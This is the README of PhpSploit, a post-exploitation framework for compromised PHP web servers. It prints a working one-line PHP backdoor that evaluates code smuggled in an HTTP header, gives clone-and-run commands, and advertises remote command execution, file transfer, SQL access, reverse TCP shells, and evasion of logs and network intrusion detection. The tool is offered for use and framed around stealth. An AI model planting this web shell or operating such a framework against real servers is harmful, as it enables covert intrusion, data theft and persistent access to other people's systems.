

### PhpSploit: _Furtive post-exploitation framework_




* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/alex14324/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate post-exploitation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any command or option (type `help`)
    -   _Cross-platform_ on both the client and the server.
    -   Powerful interface with completion and multi-command support
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD Like
-   Mac OS X
-   Windows NT

